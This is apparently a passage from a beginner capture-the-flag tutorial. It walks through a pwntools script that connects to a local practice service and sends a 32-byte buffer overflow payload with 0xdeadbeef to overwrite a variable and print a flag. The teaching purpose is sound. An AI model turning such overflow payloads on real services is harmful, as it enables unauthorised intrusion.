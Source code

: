 ### __Networking to the flag__

We will need to write a script to connect to the port, receive the data, and send our payload. To connect to a port in Pwntools, use the remote() function in the format of: remote(IP, port). 

```python
from pwn import *

connect = remote('127.0.0.1', 1336)
```

We can receive data with either the recvn(bytes) or recvline() functions. The recvn() receives as many bytes as specified, while the recvline() will receive data until there is a newline. Our code does not send a newline, so we will have to use recvn(). In our test_networking.c code, the "Give me deadbeef: " is 18 bytes, so we will receive 18 bytes.

```python
print(connect.recvn(18))
```

We have to send enough data to overflow the buff variable, and write to the printflag. The buff is a 32 byte array, so we can write some character 32 times to overflow buff, and then write our 0xdeadbeef to printflag.

```python
payload = "A"*32
payload += p32(0xdeadbeef)
```

We can send the payload with the send() function.

```python
connect.send(payload)
```

To receive our flag, We can just use connect.recvn() again. According to the c code, the flag will be 34 bytes long.

```python
print(connect.recvn(34))
```

#### __Final code__

```python
from pwn import *

connect = remote('127.0.0.1', 1336)

print(connect.recvn(18))

payload = "A"*32
payload += p32(0xdeadbeef)

connect.send(payload)

print(connect.recvn(34))
```

